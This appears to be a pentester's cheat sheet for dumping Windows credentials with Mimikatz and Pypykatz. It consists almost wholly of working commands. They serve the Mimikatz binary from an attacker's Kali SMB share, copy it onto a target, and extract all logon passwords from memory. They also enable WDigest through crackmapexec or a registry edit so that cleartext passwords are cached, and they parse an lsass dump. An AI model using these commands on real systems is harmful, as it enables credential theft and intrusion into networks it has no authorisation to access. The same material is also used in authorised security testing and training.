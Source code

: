 # Mimikatz

## Mimikatz

Locate
```
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Host mimikatz
```
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```


Copy to Target - x86
```
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x64
```
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```


All available creds
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```

### Enabling wgigest

```
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M wdigest -o ACTION=enable
```
OR
```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```



## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```


## Links

- [wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
- [-wdigest-exploration](https://www.jimmwayans.com/mimikatz-exploration-wdigest/)